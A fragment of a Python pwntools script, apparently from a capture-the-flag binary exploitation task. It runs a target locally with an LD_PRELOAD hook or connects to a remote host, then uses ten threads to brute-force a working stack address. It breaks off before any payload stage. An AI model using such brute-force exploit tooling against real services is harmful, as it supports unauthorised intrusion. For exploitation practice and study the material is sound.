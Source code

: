 ```python
    if args.LOCAL:
        p = process([e.path], env={"LD_PRELOAD": "./hook.so"})
    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p


def test_stack_address(lock, found_flag, result):
    # Each thread runs this function
    while True:
        with lock:  # Prevent multiple threads from printing/setting found_flag simultaneously
            if found_flag[0]:  # If another thread found the result, exit
                return

        p = start()
        p.sendline(b'A')
        sleep(0.1)  # Small delay to allow process to respond

        if p.poll() is None:  # Process still alive, potential success
            with lock:
                if not found_flag[0]:  # Double-check no other thread succeeded
                    print("[+] Found working stack address!")
                    found_flag[0] = True
                    result[0] = p  # Store the successful process
            break

        # Check output for specific condition (e.g., ends with b'0108')
        output = p.recvline(timeout=0.5)+p.recvline(timeout=0.5)
        with lock:
            print(f"Output: {output}")
            if output.endswith(b'0108'):
                print("[+] Condition met (ends with 0108)!")
                found_flag[0] = True
                result[0] = p
                break

        p.close()


def main():
    # Shared variables for thread synchronization
    lock = threading.Lock()
    found_flag = [False]  # Mutable list to share state across threads
    result = [None]  # Store the successful process object

    # Number of threads to use (adjust based on system capability and target)
    num_threads = 10

    print(f"Starting brute-force with {num_threads} threads...")

    # Use ThreadPoolExecutor to manage threads
    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        # Launch threads
        futures = [executor.submit(test_stack_address, lock, found_flag, result)
                   for _ in range(num_threads)]

        # Wait for all threads to complete (or one to succeed)
        for future in futures:
            future.result()

    # If a working process was found, proceed with it
    if found_flag[0] and result[0]:
```
